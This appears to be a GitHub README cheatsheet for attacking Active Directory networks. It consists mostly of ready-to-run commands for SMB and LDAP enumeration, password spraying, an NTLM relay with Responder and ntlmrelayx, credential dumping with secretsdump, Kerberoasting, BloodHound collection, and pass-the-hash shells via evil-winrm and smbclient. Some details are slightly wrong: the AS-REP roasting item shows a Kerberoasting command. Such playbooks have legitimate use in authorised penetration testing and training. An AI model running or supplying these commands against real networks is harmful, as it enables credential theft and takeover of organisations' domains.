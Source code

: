 # AD-Internal-Checklist | Active Direcotry All Cheatsheets and resources. 

## Enumerate the network. 
Enumerating the network is a very important step to discover domain controllers, servers, printers, workstations. 

The first tsep is to do is to get the IP range you are connected to. `ifconfig` / `ipconfig`. Collect as much information as possible about an AD envirement.  The goal is to get valid credentials or atleast a list o valid usernames. 

without creds 

- Nmap: 

```bash
nmap -sP -p <ip>/range # ping scan
```

```bash
nmap -PN -sV -f --open -f <ip>/range # quick scan
```

```bash
nmap -PN -sC -sV -oA <output> <ip> # classic scan
```
Options to bypass firewall `-f / -sS / -PN`

- Crackmapexec (favorit)
 This will enumerate smb null session
 ```bash
 crackmapexec smb 10.10.10.1/24 -u '' -p ''
 ```
 
 This will enumerate anonymouss access to share. 

 ```bash
 crackmapexec smb <ip> -u 'a' -p '' --shares
 ```
- OSINT: you can use open source intelligence to get a list of valid usernames depending on various [active directory naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/)

- LDAP: `ldapsearch -LLL -x -H ldap://test.local -b'' -s base '(objectclass=\*)'`
- LDAP: `nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>` 
- Enum4Linux: `enum4linux -U <dc-ip> | grep 'user:'`
- SMB: Enumerate anonymous and null session: 
```bash
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```
- SMB: `smbclient -L 172.16.1.0`. To gain access a share: `smbclient  \\\\172.16.1.0\\$share`
- Once you craft a list of possible usernames, you can perform nmap kerberoas bruteforce to get valid ones:  
```bash
kerbrute userenum -d test.local usernames.txt
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 
```
 * using crackmapexec: 
  ```bash
  crackmapexec smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
  ```
* Using Rebeus (Windows tool)
  ```bash
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
  ```
* using [kerbrute](https://github.com/ropnop/kerbrute): 
  ```bash
  kerbrute passwordspray -d test.local domain_users.txt password123
  ```
TIP: Crackmapexec is prefered

## NTLM Relay attack 

1 - First, makesure you modify on responder file `/etc/responder/Responder.conf` as below:
```bash
SMB = Off  // Off instead of On
HTTP = Off  // Off instead of On
```
2 - Create a list of hosts within the environment with SMB signing disabled using crackmapexec

```bash
crackmapexec smb IP/RANGE --gen-relay-list targets.txt
wc -l targets.txt #check how many targets you've gathered. 
```
Fire up responeder to capture hashes

 ```bash
responder -I eth1 -d -w
```

3 - fire up `ntlmrelayx` script to relay the obtained hashes

 ```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -debug -socks
```

4 - Check ntlmrelayx if any session was captured.
```bash
ntlmrelayx> socks
Protocol  Target         Username         AdminStatus  Port 
--------  -------- 	 --------         --------     ------
SMB       192.168.1.9    DOM/alice_admin  TRUE         445
SMB       192.168.1.16   DOM/alice_admin  TRUE         445
SMB       192.168.1.17   DOM/alice_admin  TRUE         445
SMB       192.168.1.13   DOM/alice_admin  TRUE         445
SMB       192.168.1.31   DOM/alice_admin  TRUE         445
```
5 - Use proxychains to interact with ntlmrelayx socks fonctionality (1080 is the default port within ntlmrelayx)

```bash
nano /etc/proxychains.conf
[ProxyList]
socks4  127.0.0.1 1080
```

6 - You can basically do whatever you want to do with those sessions

  ```bash
proxychains impacket-smbclient -no-pass DOM/alice_admin@192.168.1.41
proxychains impacket-secretsdump DOM/alice_admin@192.168.1.4
impacket-secretsdump DOM/bob_admin@192.168.1.8
crackmapexec smb 192.168.1.10 -u dom_admin -p dom_admin_password -x whoami
```

## With credentials 

Use the credentials in you favor to enumerate usefull information or gain access to computers maybe get a Domain Admin.

- Get other users. `python3 GetADUsers.py -all test.local/john:password123 -dc-ip 10.10.10.1`
- Get almost all information about an AD envirement:

 ```bash
 crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
 ```
 
  Using ldap

 ```bash
crackmapexec ldap 10.10.10.1 -u 'john' -p 'password123' --trusted-for-delegation --password-not-required --admin-count --users --groups
 ```
 - [windapsearch](https://github.com/ropnop/windapsearch): Look for users with RDP.
 
 ```bash
 python3 windapsearch --dc-ip 10.10.10.1 -u test.local\\john -p password123 -U -G --da -m "Remote Desktop Users" -C -r
 ```
 - bloodhound: 
  There are two methods to do bloodhound. 
 1 Using bloodhound.py. The python version can be useed remotely from an attacker machine: 
 
  ```bash
  python3 bloodhound.py -u john -p password123 -d test.local -v --zip -c All -dc test.local -ns 10.10.10.1
  ```
 PS: the python version requires GPO information.
 
 2 Using ShapHound. 
 Run SharpHound from a PC joined to the domain using your current user and extract all the information you can do:

 ```bash
 ./SharpHound.exe --CollectionMethod All
 Invoke-BloodHound -CollectionMethod All #using SharpHound.ps1
 ```
 The above commands will give you zipped output which you can use in neo4j database. 
 
 - GetNPUsers.py: 
 
 Can be used from a Linux machine in order to harvest the non-preauth AS_REP responses. See Kerberoas cheatsheet.
 
 ```bash
 python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
 ```
 - Get a session using [evil-winrm](https://github.com/Hackplayers/evil-winrm). Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host.
 
 ```bash
 evil-winrm -i 10.10.10.1 -u theredtea -p password123 # Or with hash
 evil-winrm -i 10.10.10.1 -u theredtea -H <HASH>
 ```
 
## SMB SHARES

```bash
with credentials : smbclient -L 172.16.1.0  -U=user%password

with credentials access : smbclient \\\\172.16.1.0\\$share  -U=user%password

with ntlm access : smbclient \\\\172.16.1.0\\$share -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

mount smb share : sudo mkdir /tmp/data; sudo mount -t cifs -o 'user=USER,password=PASSWORD' //10.0.2.80/shareapp /tmp/data
```
